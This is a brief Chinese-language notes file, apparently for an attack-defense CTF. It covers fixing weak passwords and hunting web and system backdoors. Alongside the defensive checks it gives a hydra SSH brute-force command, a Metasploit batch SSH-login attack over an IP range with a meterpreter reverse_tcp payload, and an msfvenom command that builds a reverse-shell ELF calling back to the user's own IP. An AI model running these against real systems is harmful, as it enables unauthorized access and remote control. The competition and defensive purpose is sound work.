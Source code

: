 # 弱口令
```
cat /etc/shadow|grep sh$
修改弱口令,一般和给的密码一样
```
爆破自己弱口令
```
hydra -L 用户名文件 -P 密码文件 -e ns ip ssh -t 64
```
批量爆破弱口令并且创建会话
```
msfconsole
search ssh_lo
use 0
set payload linux/x64/meterpreter/reverse_tcp
set rhosts 172.20.101-150.101
set user_file 用户名文件
set pass_file 密码文件
set threads 999
run
提权
//msfv+tab -f linux/x64/meterpreter/reverse_tcp LHOST=自己ip LPORT=4444 -f elf > p.elf

# 系统后门
- web后门
```
find /var/www/html -name "*.php"|xargs grep eval
```
- 系统后门
```
netstat -apunt
关注0.0.0.0:端口号  ::::端口号  尤其是要注意高端口号，0-1024以外的端口号，能关掉就关掉
kill -9 -pid号
```
